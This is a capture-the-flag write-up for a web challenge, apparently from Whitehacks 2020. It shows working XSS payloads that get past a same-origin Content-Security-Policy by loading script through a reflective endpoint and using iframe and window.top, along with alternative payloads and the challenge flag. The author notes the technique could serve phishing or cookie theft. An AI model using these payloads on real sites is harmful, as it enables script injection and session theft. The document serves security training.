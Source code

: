 # Report Me [GovTech]

**GovTech Web // 500 Points // Demo**

## Description

A white-hat hacker notified SecTech that her public name registry is vulnerable to Cross-Site-Scripting (XSS)! He kindly reported the `/query` endpoint is vulnerable to XSS! It is up to you to validate what the hacker said! Try to exploit the following endpoint to identify any more XSS vulnerabilities! 

http://sec-tech.cf:8080?q=max

## Solution

Ah another XSS. Looks like it's easier this time since it's just a `.innerHTML` thing.

![looks like i can bold text](https://raw.githubusercontent.com/IRS-Cybersec/ctfdump/master/Whitehacks%202020/web/Report%20Me/site.png)

Big sike? Big sike.

The problem here is that there is a fun `Content-Security-Policy: default-src 'self';` header that wants to mess up our lives. CSP is a security header that bans certain possibly unsafe web technologies such as `<script>` or `<img>` tags. It is used to prevent things like XSS attacks. This CSP means "only load things from the current domain", and inline scripts and stylesheets are banned; i.e. we can't do this:

```html
<script>alert(1)</script>
```

We can bypass this by using the /query XSS. Let's look for that XSS first, since it _also_ has the CSP attached. We know that we can type arbitrary text into that endpoint, so:

```
http://sec-tech.cf:8080/query?name=<script src="query?name%3Dalert(1) //"></script>
```

This URL goes to `/query` and injects the tag `<script src="query?name=alert(1) //"></script>`, whose source is query but with a payload of `alert(1)// not found!` (the `//` is important because it comments out the "not found" text, which is not valid JavaScript). This is equivalent to `<script>alert(1)</script>`, which is a common XSS payload.

Back to `/`, let's try the same payload:

```
http://sec-tech.cf:8080/?q=<script src="query?name%3Dalert(1)//"></script>
```

![oh no this payload does not work!](https://raw.githubusercontent.com/IRS-Cybersec/ctfdump/master/Whitehacks%202020/web/Report%20Me/failed-xss.png)

We see the `<script>`, but where is the alert box?

In their infinite wisdom (well to be fair it is a good security practice, but it makes my life hard), the browser developers decided not to allow `.innerHTML` to insert `<script>` tags. The tag _is added_, but it isn't run, so it's basically useless.

Therefore, a method of running scripts without using `innerHTML`, i.e. using a tag other than `<script>` is necessary. Now, spend over an hour trying that and weeping in front of your laptop.

Then, suddenly come to the realization that [`window.top`](https://developer.mozilla.org/en-US/docs/Web/API/Window/top) exists. This means that in an `<iframe>` tag, the JavaScript in the `<iframe>` is able to interact with the page that it is inside. Of course, there are security checks to prevent abuse. However, since both `/` and `/query` are on the same domain, the browser allows this variable to be used. With the `window` object of the top window, we are finally able to perform a full blown XSS:

```
http://sec-tech.cf:8080/?q=<iframe src='query?name=<script src="query?name%3Dwindow.top.WHATEVER_JS_FUNCTION_YOU_WANT"></script>'></iframe>
```

You'll have to use backticks for any parameters (unless you like escaping with `\`):

```
http://sec-tech.cf:8080/?q=<iframe src='query?name=<script src="query?name%3Dwindow.top.alert(`so it turns out X Æ A-12 only does demo challenges`);window.top.location%3D`https://irscybersec.tk`//"></script>'></iframe>
```

Now, you can run whatever you want in the site for any purpose: phishing, stealing cookies, bitcoin mining botnet etc idk.

## Alternative Solutions

GovTech hires smart people who have good ideas (thanks sherlock) so they had better solutions than me. Other than an XSS, you could also use a `<meta>` tag for a redirect:

```html
<meta http-equiv="refresh" content="0;URL='https://www.tech.gov.sg/report_vulnerability/'" />
```

For an full-blown XSS, a [`srcdoc`](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe) attribute could also have been used:

```
http://sec-tech.cf:8080/?q=<iframe srcdoc='<script src="query?name%3Dwindow.top.alert(`so it turns out X Æ A-12 only does demo challenges`);window.top.location%3D`https://irscybersec.tk`//"></script>'></iframe>
```

This removes the step of needing an additional `<script>` tag inside the payload. It uses the same vector `window.top`.

## Flag

```
WH2020{th3_XsS_pr0w3$$}
```